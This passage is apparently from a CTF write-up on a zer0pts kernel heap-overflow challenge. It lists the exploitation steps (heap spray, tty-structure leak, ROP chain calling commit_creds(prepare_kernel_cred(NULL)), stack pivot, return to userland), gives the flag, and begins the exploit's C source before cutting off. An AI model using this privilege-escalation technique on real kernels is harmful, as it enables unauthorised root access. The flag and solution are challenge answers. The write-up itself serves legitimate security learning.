 As a result, the original has been modified to spawn a new process that would
read the flag and write it on `/dev/ttyS0`. The author was not satisfied with
this bodge, and the exploit has been rewritten to return properly to userland.


## Exploitation

The exploitation steps are the following :
1. spray the `kmalloc-1k` pool to "fill the holes"
2. allocate a memo followed by a tty structure
3. leak addresses from the tty structure to defeat ASLR
4. set-up the ROP chain in the memo and addresses for the stack pivot
5. overwrite the pointer to `ptm_unix98_lookup`
6. close the tty to call the ROP chain

The ROP chain is a classic payload : it calls
`commit_creds(prepare_kernel_cred(NULL))` which gives root privileges to the
current process.

In order to return cleanly to userland, it jumps in the middle of
`swapgs_restore_regs_and_return_to_usermode`, which is the function called by
the kernel to return to userland after a syscall. It will take care of switching
the page tables and calling `swapgs` with `iret`.

**Flag**: `zer0pts{h34p_0v3rfl0w_VS_k4slr+sm3p+sm4p+ktp1}`

## Appendices

### main.c

```c
#include "syscall.h"

#define DEBUG(str) write(2, str, sizeof(str))

char stack[0x400];

unsigned long user_cs, user_ss, user_rflags;

// stolen from vitaly nikolenko's blog post
static void save_state() {
        asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}

void shell(void)
{
	const char *args[] = {"/bin/sh", 0};
	const char *envs[] = {0};

	DEBUG("[!] Should be root\n");
	execve(args[0], args, envs);
}

void _start(void)
{
	char buffer[0x400];
	char fake[0x400];
	int fdm, fdp;

	save_state();
```